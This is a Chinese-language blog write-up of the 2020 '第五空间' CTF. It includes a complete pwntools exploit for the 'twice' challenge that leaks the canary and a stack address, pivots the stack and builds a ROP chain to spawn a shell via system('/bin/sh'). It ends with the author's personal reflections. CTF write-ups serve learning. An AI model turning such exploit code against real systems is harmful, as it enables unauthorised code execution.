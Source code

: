 ```yaml
---
title: 2020第五空间wp
date: 2020-07-03 23:36:46
tags:
---
```

最近很懒了，被学校的一些恶心人的操作搞了身心俱疲<!--more-->
这第五空间，据说去年是个垃圾比赛，水一水进决赛恰烂钱，我寻思着和北辰一样拿10w快乐一下，但是连线下都没进...  
今年的题目质量据说比去年更有提高，起码不是全pwn了是不是  
只给了3个pwn  
签到被KMFL秒了  
其他两个弱智题  
一个of，给了源码，但是远程测得结果和源码不一样  
还有一个arm题，环境起不来没办法跑当时（后来起来了也不知道咋调）  
都没有远程环境了，连黑盒测试都测试不了  
算了，就贴一个签到题的好了  
# Pwn  
## twice  
![](1.jpg)
没什么好说的，泄露canary，泄露rbp，调试得栈地址，栈迁移到栈上写ROP链  
exp  
```python  
#!/usr/bin/env python
#coding=utf-8
from pwn import*
from LibcSearcher import *
import sys
context.log_level = 'debug'
context.terminal = ['terminator','-x','sh','-c']
binary = './pwn' 
local = 1
if local == 1:
    p=process(binary)
else:
    p=remote("121.36.59.116",9999)
elf=ELF(binary)
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
def exp():
    p.recvuntil(">")
    p.send("bbbb"+"a"*85)
    p.recvuntil("a"*85)
    canary = u64(p.recv(7).rjust(8,"\x00"))
    print hex(canary)
    stack_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))-0x70
    log.success("stack_addr==>" + hex(stack_addr))
    p.recvuntil(">")
    payload = p64(0) + p64(0x0000000000400923) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(0x400630)
    payload += "a"*(88-len(payload))
    payload += p64(canary) + p64(stack_addr) + p64(0x0000000000400879)  # 我连gadget都懒得定义了，凑合看吧，动手找一找应该就知道是什么了
    p.send(payload)
    puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8, '\x00')) 
    libc_base = puts_addr - libc.sym['puts']
    log.success("puts_addr==>" + hex(puts_addr))
    log.success("libc_base==>" + hex(libc_base))
    system = libc_base + libc.sym['system']
    binsh = libc_base + libc.search("/bin/sh").next()
    p.recvuntil(">")
    p.send("bbbb"+"a"*85)
    p.recvuntil("a"*85)
    canary = u64(p.recv(7).rjust(8,"\x00"))
    print hex(canary)
    stack_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))-0x70
    log.success("stack_addr==>" + hex(stack_addr))
    p.recvuntil(">")
    payload = p64(0) + p64(0x0000000000400923) + p64(binsh) + p64(system) + p64(0xdeadbeef)
    payload += "a"*(88-len(payload))
    payload += p64(canary) + p64(stack_addr) + p64(0x0000000000400879)
    p.send(payload)
    p.interactive()
exp()
```  
# Reverse  
咕咕咕……  
还没做出来，后面找时间做吧  
很可能直接不做了（x  
</br>
</br>
后面可能很长一段时间不会更博客了，没有强有力的激励，感觉心态特别难调整得过来  
透过屏幕看到的其他人，总感觉他们的生活是那么的愉悦多彩，自己却好像过的不是人过的日子  
最近特别懒，什么都不想动，只想睡觉，连这篇exp，都是比赛结束一周后才贴上来的，这一天天的感觉什么事情都没做但是又特别累，负面情绪特别严重，老是被一些还没到来的事情烦恼，天天想这那的，其实自己都懂该来的都会来，老想着它也阻止不了改变不了什么，只会徒增烦恼，但就是忍不住就会去想这些事情，把自己弄得很疲惫，同时又恨自己无力改变，很多特别小的事情，都没有能力去控制，更别说做出什么大事业，把自己关在电脑里，可能仅仅是一种逃避罢了，终究还是要面对，但是对未来的事情，却又底气不足  
唯一可以强忍着不让自己崩溃的，可能就是胸前的党徽还有那份信仰了  